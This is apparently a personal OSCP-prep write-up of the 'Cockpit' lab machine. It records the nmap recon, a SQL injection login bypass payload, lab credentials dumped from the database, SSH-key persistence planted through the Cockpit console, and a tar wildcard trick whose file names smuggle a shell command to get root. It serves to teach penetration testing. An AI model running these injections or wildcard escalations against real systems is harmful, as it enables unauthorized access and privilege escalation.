 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Cockpit
tags: ["priv-esc", "gobuster", "ssh", "persistence", "burpsuite", "directory-traversal"]
---
```


**Start 08:05 31-01-2025**

---
```
Scope:
192.168.134.10
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV -vvvv --min-rate=5000 -sT -T5 -p- 192.168.134.10  -Pn

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: blaze
9090/tcp open  http    syn-ack Cockpit web service 198 - 220
|_http-title: Did not follow redirect to https://192.168.134.10:9090/
| http-methods: 
|_  Supported Methods: GET HEAD
```


## Feroxbuster

Port `80` gives the following output.

![](../../../assets/bee5251c22f7ffd9720469978d4f3cc2.png)

port `9090` however gave an immense output.

![](../../../assets/2e64710e843deebdb7109585c991cb48.png)

>[!important]
Since I got stuck here I went ahead and ran `gobuster` for good measure to try and see if I missed something.


## Gobuster

![](../../../assets/a8c1acfd9c38679f821dc1c954032e59.png)

Feroxbuster completely missed this! Let's check it out.


# 80/TCP - HTTP

![](../../../assets/8e87a486c941ddf1763c8d16c054d60b.png)

I tried to enter `admin - admin` and got this red colored response:

![](../../../assets/0a0b3d884d7055bfc6d4dbd780dafaa4.png)

Perhaps **SQLi**?

![](../../../assets/297f356caf19e07b1a92d746c613470f.png)

Yup, let's do some SQLi testing.

>[!note]
It looks like we're dealing with a **MySQL** server. I will be referencing the [following site](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md) 

After some tries I get the following:

![](../../../assets/ebd8607715bcdb9f460281c851a1737a.png)

Not to worry as the site still works.


## SQLi 

I fire up burp to start testing the injections:

![](../../../assets/3cb32b059caa25be929b7ffff5c36e3e.png)

Let's start modifying it.

```sql
'OR '' = '
```

>[!info]
Found it in [this resource](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Databases/MySQL-SQLi-Login-Bypass.fuzzdb.txt?source=post_page-----7e777892e485--------------------------------):![](../../../assets/ec8e8560e7e9a1eb84a7ce093b080b0e.png)

![](../../../assets/5553a42fc5938345f89c788b69abc8d9.png)

code `302`, seems good, let's try it out.

![](../../../assets/4d3f2fcd25ddcb670fc08ba69c26aa07.png)

Awesome

![](../../../assets/9a40a2de7a6b4f89b534b497f590e167.png)

```
james 
canttouchhhthiss@455152

cameron
thisscanttbetouchedd@455152
```

Returning back to port `9090` I was able to log in using *james*'s creds.


# 9090/TCP - HTTP

![](../../../assets/dcdc1ae91e49110153fd9ccd6b67a7ec.png)

Login screen for some sort of Ubuntu web access. 

Using *james* creds I got in:

![](../../../assets/0b8f4b594bff4df6d8c016e19223aaaf.png)

In the **Host > Accounts > james** section I found a spot where I could upload **Authorized Public SSH Keys** so I copy pasted my `id_rsa.pub` file into it.

![](../../../assets/7f1b025cb892fff2a2275a3eb9bf8f48.png)


# Foothold

Let's try to log in via SSH.

![](../../../assets/0c7972dab8042472706772012edcc10e.png)


## local.txt

![](../../../assets/443a28514dca2cce40fcab2f30cab1e2.png)


## Enumeration

![](../../../assets/a1019824ea9f37a647e7b80a3ee7cfc6.png)

We find the `tar *` wildcard again. From [[OSCP C#Tar Wildcard]] we learned how to do it, so we will try and abuse it in the same way.


# Privilege Escalation

Using the wildcard trick we get a `root` shell easily.

```bash
touch ./--checkpoint=1
touch ./--checkpoint-action=exec=sh 
sudo tar -czvf /tmp/backup.tar.gz *
```

![](../../../assets/f9e9f42cfbe597dfcd47c8b6cb9cd9a7.png)

![](../../../assets/d7549bc1e566d09880824c3a2ba34289.png)


## proof.txt

![](../../../assets/78c1d7deeeb2857d45606500c6ca1998.png)

---

**Finished 09:02 31-01-2025**

[^Links]: [[OSCP Prep]]

#SQLi #wildcard 